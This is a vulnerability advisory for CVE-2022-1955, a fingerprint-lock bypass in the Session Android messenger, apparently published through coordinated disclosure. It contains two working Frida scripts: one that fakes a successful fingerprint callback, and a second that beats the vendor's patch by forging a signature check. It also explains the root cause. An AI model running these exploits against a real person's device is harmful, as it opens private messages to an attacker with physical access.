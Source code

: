 ```yaml
---
slug: advisories/tempest/
title: Session 1.13.0 - Improper Access Control (Fingerprint)
authors: Carlos Bello
writer: cbello
codename: tempest
product: Session 1.13.0
date: 2022-06-28 08:00 COT
cveid: CVE-2022-1955
severity: 6.3
description: Session 1.13.0  -  Improper Access Control (Fingerprint)
keywords: Fluid Attacks, Security, Vulnerabilities, Session, Oxen
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                        |
| --------------------- | -------------------------------------------------------|
| **Name**              | Session 1.13.0 - Improper Access Control (Fingerprint) |
| **Code name**         | [Tempest](https://en.wikipedia.org/wiki/Joey_Tempest)  |
| **Product**           | Session                                                |
| **Affected versions** | Version 1.13.0                                         |
| **State**             | Public                                                 |
| **Release date**      | 2022-06-28                                             |

## Vulnerability

|                       |                                                                                                        |
| --------------------- | ------------------------------------------------------------------------------------------------------ |
| **Kind**              | Improper Access Control - Fingerprint                                                                  |
| **Rule**              | [115. Security controls bypass or absence](https://docs.fluidattacks.com/criteria/vulnerabilities/115) |
| **Remote**            | No                                                                                                     |
| **CVSSv3 Vector**     | CVSS:3.1/AV:P/AC:H/PR:L/UI:N/S:U/C:H/I:H/A:H                                                           |
| **CVSSv3 Base Score** | 6.3                                                                                                    |
| **Exploit available** | Yes                                                                                                    |
| **CVE ID(s)**         | [CVE-2022-1955](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-1955)                          |

## Description

An attacker with physical access to the victim's device can
bypass the application's fingerprint lock to access user data.
This is possible due to lack of adequate security controls to
prevent dynamic code manipulation.

In android application fingerprint implementations, the
**onAuthenticationSucceded** method is triggered when the
system successfully authenticates a user. Most biometric
authentication implementations rely on this method being
called, without worrying about the CryptoObject. The
application logic responsible for unlocking the application
is usually included in this callback method. This approach
is trivially exploited by connecting to the application
process and calling the **AuthenticationSucceded** method
directly, as a result, the application can be unlocked
without providing valid biometric data. (In short,
fingerprint validation depends on an event and not on
an actual security validation.)

Another common case, occurs when some developers use
CryptoObject but do not encrypt/decrypt data that is
crucial for the application to function properly.
Therefore, we could skip the authentication step
altogether and proceed to use the application.

## Proof of Concept

Attached below is a proof-of-concept video showing the
exploitation of the vulnerability:

![POC-Bypass-Fingerprint-Session](./poc.mp4)

### Steps to reproduce

1. Install and configure frida as indicated in the following [link](https://programmerclick.com/article/51481638343/).

2. Now just run this command to hook into the fingerprint listener,
   so that you can dynamically rewrite its implementation to bypass
   the application's protection.

   ```bash
   frida -U 'Session' -l exploit.js --no-pause
   ```

3. Now on your device press the 'recent' button, commonly represented
   by a square. This button opens the recent apps view so that you can
   switch from one open app to another.

4. Log back into Session.

5. As you had left the exploit running with frida, you will notice that
   in less than a second you will enter the application, without even
   having set a valid fingerprint.

## Exploit

```js
// exploit.js
const getAuthResult = (AuthenticationResult, crypto) => AuthenticationResult.$new(crypto, null, 0);

const exploit = () => {
    console.log("[+] Hooking PassphrasePromptActivity - Method resumeScreenLock");
    const AuthenticationResult = Java.use('android.hardware.fingerprint.FingerprintManager$AuthenticationResult');
    const FingerprintManager  = Java.use('android.hardware.fingerprint.FingerprintManager');
    const CryptoObject = Java.use('android.hardware.fingerprint.FingerprintManager$CryptoObject');

    console.log("Hooking FingerprintManagerCompat.authenticate()...");
    const fingerprintManager_authenticate = FingerprintManager['authenticate'].overload('android.hardware.fingerprint.FingerprintManager$CryptoObject', 'android.os.CancellationSignal', 'int', 'android.hardware.fingerprint.FingerprintManager$AuthenticationCallback', 'android.os.Handler');;

    fingerprintManager_authenticate.implementation = (crypto, cancel, flags, callback, handler) => {
        console.log("Bypass Lock Screen - Fingerprint");
        var crypto = CryptoObject.$new(null);
        var authenticationResult = getAuthResult(AuthenticationResult, crypto);
        callback.onAuthenticationSucceeded(authenticationResult);
        return this.authenticate(crypto, cancel, flags, callback, handler);
    }
}

Java.perform(() => exploit());
```

## Mitigation

### Bypass of the patch implemented at Session 1.13.4

After reporting the security flaw, the Session team implemented a [patch](https://github.com/oxen-io/session-android/commit/db92034a8a85ac33d42235e87f6fce9bc9738475).
However, I managed to bypass the patch using the following exploit:

```js
const getAuthResult = (AuthenticationResult, crypto) => AuthenticationResult.$new(crypto, null, 0);

const exploit = () => {
    console.log("[+] Hooking PassphrasePromptActivity - Method resumeScreenLock");
    const KeyPairGenerator = Java.use('java.security.KeyPairGenerator');
    const Signature = Java.use('java.security.Signature');
    const BiometricSecretProvider = Java.use('org.thoughtcrime.securesms.crypto.BiometricSecretProvider');
    const AuthenticationResult = Java.use('android.hardware.fingerprint.FingerprintManager$AuthenticationResult');
    const FingerprintManager  = Java.use('android.hardware.fingerprint.FingerprintManager');
    const CryptoObject = Java.use('android.hardware.fingerprint.FingerprintManager$CryptoObject');

    console.log("Hooking FingerprintManagerCompat.authenticate()...");
    const fingerprintManager_authenticate = FingerprintManager['authenticate'].overload('android.hardware.fingerprint.FingerprintManager$CryptoObject', 'android.os.CancellationSignal', 'int', 'android.hardware.fingerprint.FingerprintManager$AuthenticationCallback', 'android.os.Handler');

    fingerprintManager_authenticate.implementation = (crypto, cancel, flags, callback, handler) => {
        console.log("Bypass Lock Screen - Fingerprint");

        // Create Certificate
        var keyGenerator = KeyPairGenerator.getInstance("RSA");
        keyGenerator.initialize(2048);
        var signatureKey = keyGenerator.generateKeyPair();
        var signature = Signature.getInstance("MD5withRSA");
        signature.initSign(signatureKey.getPrivate());
        var crypto = CryptoObject.$new(signature);

        // Create a valid authenticationResult
        var authenticationResult = getAuthResult(AuthenticationResult, crypto);

        // Bypass Validations
        BiometricSecretProvider.verifySignature.implementation = (data, signedData) => {
            return true;
        }

        // Success
        callback.onAuthenticationSucceeded(authenticationResult);
        return this.authenticate(crypto, cancel, flags, callback, handler);
    }
}

Java.perform(() => exploit());
```

The reason the bypass succeeded is because the **onAuthenticationSucceeded**
method still depends on a boolean.

If the cryptographic verification works fine, it returns true. However,
the correct thing to do would be for it to retrieve the encryption object
from the parameter and USE this encryption object to decrypt some other
crucial data, such as the session key (by **"session key"** I don't mean the
session application's private key. I simply mean a unique identifier of
the user's session) or a secondary symmetric key that will be used to
decrypt the application data.

This is why in the description of this finding, we have cited the following:

> some developers use CryptoObject but do not encrypt/decrypt data that
> is crucial for the application to function properly. Therefore, we
> could skip the authentication step altogether and proceed to use
> the application.

Currently, in version 1.13.6 the Session team has not implemented a
second patch to prevent the second exploit.

## System Information

* Package Name: network.loki.messenger
* Application Label: Session
* Mobile app version: 1.13.0
* OS: Android 8.0 (API 26)

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from the Offensive
Team of `Fluid Attacks`.

## References

**Vendor page:** <https://github.com/oxen-io/session-android>
**MR page:** <https://github.com/oxen-io/session-android/pull/897>

## Timeline

<time-lapse
  discovered="2022-05-26"
  contacted="2022-05-26"
  replied=""
  confirmed="2022-05-27"
  patched=""
  disclosure="2022-06-28">
</time-lapse>
